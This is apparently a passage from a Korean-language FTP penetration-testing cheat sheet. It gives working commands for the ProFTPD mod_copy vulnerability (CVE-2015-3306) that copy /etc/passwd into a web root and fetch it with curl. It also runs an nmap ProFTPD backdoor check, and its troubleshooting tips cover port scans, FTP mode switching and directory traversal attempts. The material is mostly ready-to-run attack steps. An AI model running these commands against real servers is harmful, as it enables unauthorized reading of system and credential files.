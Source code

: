 ```bash
# ProFTPD mod_copy 취약점 (CVE-2015-3306)
telnet {IP} 21
site cpfr /etc/passwd
site cpto /var/www/html/passwd.txt

# 파일 복사 후 웹에서 확인
curl http://{IP}/passwd.txt

# ProFTPD 1.3.5 취약점
nmap --script ftp-proftpd-backdoor -p 21 {IP}
```

---

## 🚨 문제 해결

### 🔒 연결이 안 될 때

```bash
# 다른 FTP 포트 확인
nmap -p 20-21,990,991 {IP}

# Passive 모드 시도
ftp {IP}
quote pasv

# Active 모드 시도
ftp {IP}
quote port

# 다른 FTP 클라이언트 사용
lftp {IP}
ncftp {IP}
```

### 📁 디렉토리 접근 거부시

```bash
# 경로 변경 시도
cd ..
cd ../..
cd /
cd ~

# 숨겨진 파일 확인
ls -a
ls -la

# 다른 디렉토리 직접 접근
cd /var
cd /tmp
cd /home
cd /usr/local
```
